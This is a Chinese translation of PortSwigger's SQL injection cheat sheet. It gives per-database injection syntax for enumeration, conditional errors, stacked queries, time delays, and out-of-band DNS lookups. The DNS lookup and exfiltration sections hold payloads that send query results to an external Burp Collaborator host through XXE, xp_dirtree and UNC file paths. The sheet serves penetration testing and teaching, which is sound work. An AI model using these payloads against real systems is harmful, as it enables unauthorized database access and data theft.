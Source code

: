 ```yaml
---
description: '原文链接：https://portswigger.net/web-security/sql-injection/cheat-sheet'
---
```


# SQL注入备忘单

这个SQL注入备忘单包含了一些有用的语法例子，您可以用来执行执行SQL注入攻击时经常出现的各种任务。

### 字符串连接

你可以将多个字符串连接在一起组成一个字符串。

| DataBases | Statements |
| :--- | :--- |
| **Oracle** | `'foo'||'bar'` |
| **Microsoft** | `'foo'+'bar'` |
| **PostgreSQL** | `'foo'||'bar'` |
| **MySQL** | `'foo' 'bar'` \[Note the space between the two strings\] `CONCAT('foo','bar')` |

### 子字符串

您可以从指定的偏移量中提取字符串的部分长度。请注意，偏移量的索引是基于1的。以下每个表达式都会返回字符串 ba。

| DataBases | Statements |
| :--- | :--- |
| Oracle | `SUBSTR('foobar', 4, 2)` |
| Microsoft | `SUBSTRING('foobar', 4, 2)` |
| PostgreSQL | `SUBSTRING('foobar', 4, 2)` |
| MySQL | `SUBSTRING('foobar', 4, 2)` |

### 注释

您可以使用注释来截断查询，并删除输入之后的原始查询部分。

| DataBases | Statements |
| :--- | :--- |
| Oracle | `--comment` |
| Microsoft | `--comment` `/*comment*/` |
| PostgreSQL | `--comment` `/*comment*/` |
| MySQL | `#comment` `-- comment` \[Note the space after the double dash\] `/*comment*/` |

### 数据库版本

你可以查询数据库以确定其类型和版本。这些信息在制定更复杂的攻击时很有用。

| DataBases | Statements |
| :--- | :--- |
| Oracle | `SELECT banner FROM v$version SELECT version FROM v$instance` |
| Microsoft | `SELECT @@version` |
| PostgreSQL | `SELECT version()` |
| MySQL | `SELECT @@version` |

### 数据库内容

您可以列出数据库中存在的表，以及这些表包含的列。

| DataBases | Statements |
| :--- | :--- |
| Oracle | `SELECT * FROM all_tables SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'` |
| Microsoft | `SELECT * FROM information_schema.tables SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
| PostgreSQL | `SELECT * FROM information_schema.tables SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
| MySQL | `SELECT * FROM information_schema.tables SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |

### 条件错误

您可以测试单个布尔条件，如果条件为真，则触发数据库错误。

| DataBases | Statements |
| :--- | :--- |
| Oracle | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual` |
| Microsoft | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END` |
| PostgreSQL | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END` |
| MySQL | `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` |

### 批处理（或堆叠）查询

您可以使用批处理查询来连续执行多个查询。请注意，虽然后续查询被执行，但结果不会返回给应用程序。因此，这种技术主要用于与盲目漏洞有关的情况，在这种情况下，您可以使用第二个查询来触发一个 DNS 查找、条件错误或时间延迟。

| DataBases | Statements |
| :--- | :--- |
| Oracle | `Does not support batched queries.` |
| Microsoft | `QUERY-1-HERE; QUERY-2-HERE` |
| PostgreSQL | `QUERY-1-HERE; QUERY-2-HERE` |
| MySQL | `QUERY-1-HERE; QUERY-2-HERE` |

> Note
>
> 对于MySQL，批量查询通常不能用于SQL注入。然而，如果目标应用程序使用某些PHP或Python API与MySQL数据库通信，这偶尔是可能的。

### 时间延迟

您可以在数据库处理查询时造成时间延迟。以下将造成10秒的无条件时间延迟。

| DataBases | Statements |
| :--- | :--- |
| Oracle | `dbms_pipe.receive_message(('a'),10)` |
| Microsoft | `WAITFOR DELAY '0:0:10'` |
| PostgreSQL | `SELECT pg_sleep(10)` |
| MySQL | `SELECT sleep(10)` |

### 有条件的时间延迟

你可以测试一个布尔条件，如果条件为真，就会触发一个时间延迟。

| DataBases | Statements |
| :--- | :--- |
| Oracle | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual` |
| Microsoft | `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'` |
| PostgreSQL | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END` |
| MySQL | `SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')` |

### DNS查找

您可以使数据库执行对外部域的 DNS 查找。要做到这一点，您需要使用 [Burp Collaborator 客户端](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client)生成一个您将在攻击中使用的唯一 Burp Collaborator 子域，然后轮询 Collaborator 服务器以确认发生了 DNS 查找。

| DataBases | Statements |
| :--- | :--- |
| Oracle | The following technique leverages an XML external entity \([XXE](https://portswigger.net/web-security/xxe)\) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence: `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual`  The following technique works on fully patched Oracle installations, but requires elevated privileges: `SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')` |
| Microsoft | `exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'` |
| PostgreSQL | copy \(SELECT ''\) to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net' |
| MySQL | The following techniques work on Windows only: `LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')` `SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'` |

### 带数据渗出的DNS查找

您可以使数据库对包含注入查询结果的外部域进行 DNS 查询。要做到这一点，您需要使用 [Burp Collaborator 客户端](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client)生成一个您将在攻击中使用的唯一 Burp Collaborator 子域，然后轮询 Collaborator 服务器以检索任何 DNS 交互的细节，包括被渗出的数据。

| DataBases | Statements |
| :--- | :--- |
| Oracle | SELECT extractvalue\(xmltype\('&lt;?xml version="1.0" encoding="UTF-8"?&gt;&lt;!DOCTYPE root \[ &lt;!ENTITY % remote SYSTEM "http://'\|\|\(SELECT YOUR-QUERY-HERE\)\|\|'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"&gt; %remote;\]&gt;'\),'/l'\) FROM dual |
| Microsoft | declare @p varchar\(1024\);set @p=\(SELECT YOUR-QUERY-HERE\);exec\('master..xp\_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"'\) |
| PostgreSQL |  |
| MySQL | The following technique works on Windows only: `SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'` |







